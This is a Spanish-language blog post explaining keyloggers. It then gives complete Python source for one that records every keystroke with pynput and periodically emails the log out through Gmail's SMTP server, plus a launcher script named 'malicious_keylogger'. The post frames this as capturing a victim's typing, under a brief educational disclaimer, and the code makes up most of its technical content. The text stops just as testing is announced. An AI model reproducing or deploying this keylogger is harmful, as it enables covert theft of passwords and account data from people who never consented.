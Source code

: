 ```yaml
---
layout: single
title: "Entendiendo los keyloggers: teoría y creación de un keylogger básico en Python"
excerpt: "En este post, aprenderás acerca de los conceptos básicos de los keyloggers, así como sobre cómo crear un keylogger básico en Python. A través de la creación de una herramienta de este tipo, aprenderás sobre la captura de entrada del usuario, el manejo de flujos de datos y la transmisión de información en tiempo real. Aunque es importante mencionar que los keyloggers son considerados una herramienta peligrosa y su uso indebido puede ser ilegal y violar la privacidad de las personas. "
date: 2022-06-30
classes: wide
header:
 teaser: /assets/images/keylogger/keylogger.png
 teaser_home_page: true
categories:
  - programacion
tags:
  - seguridad
  - spyware
  - colombia
  - python
  - malware
---
```


<p align="center" >
<img src='/assets/images/keylogger/keylogger.png' width='300' height='300'/>
</p>

Un Keylogger es un pequeño programa diseñado para capturar todas las pulsaciones que son realizadas por un teclado, para guardarlas en un registro que puede verse luego en un ordenador local, o puede ser enviado con rapidez y seguridad a través de Internet a un equipo remoto. Sin embargo los keyloggers no siempre se basan en _software_, sino que tambien pueden estar basados en _hardware_, mas adelanto explico cada uno, pero en este post nos enfocaremos en el keylogger basado en software ya que capturaremos la escritura de teclas de la victima.

A pesar de ser usado mayormente para actividades ilicitas, los keyloggers tambien tienen un uso positivo en las empresas, ayudando en el control parental o el analisis interno de las mismas. En definitiva los keyloggers son tecnologias que nos permiten realizar un seguimiento y registrar cada tecla o pulsacion  tacil que se realiza en algun dispositivo electronico.

# Tipos de keylogger
Existen 2 tipos los cuales seran resumidos:

## Keylogger basado en software 
Este keylogger se trata de un programa ejecutable, que actúa como espía o virus, escrito en Python y es instalado en cualquier dispositivo electrónico con teclado para rastrear la escritura realizada con este. Normalmente, se instala sin consentimiento del usuario y realiza el registro de las pulsaciones del teclado e inclusive realiza capturas de pantalla, esto con el fin de obtener datos de acceso como por ejemplo los números de cuentas y sus contraseñas.

Posterior a esto, los datos capturados son guardados en un archivo que se le suele llamar `log.txt` y luego es enviado al atacante via correo electronico o talvez el archivo solo es guardado en el equipo local o enviado a un equipo remoto, siendo estas las tipologias de _keylogger_ mas comunes.

## Keylogger basado en hardware
Este keylogger de tipo _hardware_ suele implementarse a travez de firmware a nivel de BIOS o, alternativamente atravez de un dispositivo microelectronico conectado en linea entre en teclado de computadora y una computadora.

# Como se crea un keylogger basico?
El proposito de este post es con fines educativos, no me responsabilizo del uso que hagan con el. Con esta entrada quiero ensenar **como crear un keylogger con el lenguaje python**, este keylogger va guardar cada pulsacion de tecla y va almacenar esta informacion en un archivo de texto, Despues de x pulsaciones, el keylogger enviara un correo a una direccion especifica con el archivo adjunto.

Para que este keylogger funcione debemos hacer uso de algunas librerias o modulos de python las cuales son las siguientes: 

- smtplib: Este modulo o libreria define un objeto de sesion de cliente SMTP que se puede usar para enviar correos a cualquier maquina de internet con un demonio de escucha SMTP.
- re: Este modulo nos proporciona operaciones de conicidencia de expresiones regulares.
- subprocess: Este modulo permite invocar procesos desde python y comunicarse con ellos, es decir enviar datos a la entrada `stdin` y recibir la informacion de salida `stdout`.
- pynput: Esta biblioteca nos permite controlar y monitorear/escuchar los dispositivos de entrada como el teclado y el mouse.
- threading: Este modulo construye interfaces de hilado de alto nivel sobre el modulo de mas bajo nivel.

Ya sabiendo esto, pasamos a escribir el codigo donde usaremos tambien programacion orientada a objetos y despues sera explicar por partes el codigo.

```python
#!/usr/bin/env python
import smtplib
import threading
from pynput import keyboard

#create keylogger class
class KeyLogger:

  #definimos init variables 
  def __init__ (self, time_interval, email, password):
    self.interval = time_interval
    self.log = "[!] Keylogger has started..."
    self.email = email
    self.password = password

  # creamos el archivo log
  def append_to_log(self, string):
    self.log = self.log + string

  # creamos el keylogger
  def on_press(self, key):
    try:
      current_key = str(key.char)
    except AttributeError:
      if key == key.space:
        current_key = " "
      elif key == key.esc:
        print("[!] Exiting program...")
        return False
      else:
        current_key = " " + str(key) + " "
    
    self.append_to_log(current_key)

  # creamos la estructura trasera del mail
  def send_mail(self, email, password, message):
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

  # creamos el reporte y el envio del mail
  def report_and_sendmail(self):
    send_off = self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = ""
    timer = threading.timer(self.interval, self.report_and_sendmail)
    timer.start()

  # start keylogger and send off mail
  def start(self):
    keyboard_listener = keyboard.Listener(on_press = self.on_press)
    with keyboard_listener:
      self.report_and_sendmail()
      keyboard_listener.join()
```
Como creamos una clase, pasamos a crear el archivo python que va ejecutar el keylogger

```python
import keylogger

#inicializamos
malicious_keylogger = keylogger.KeyLogger(10, 'test@gmail.com', '123456789')

#ejecutamos
malicious_keylogger.start()
```

Ahora pasamos a probar el keylogger
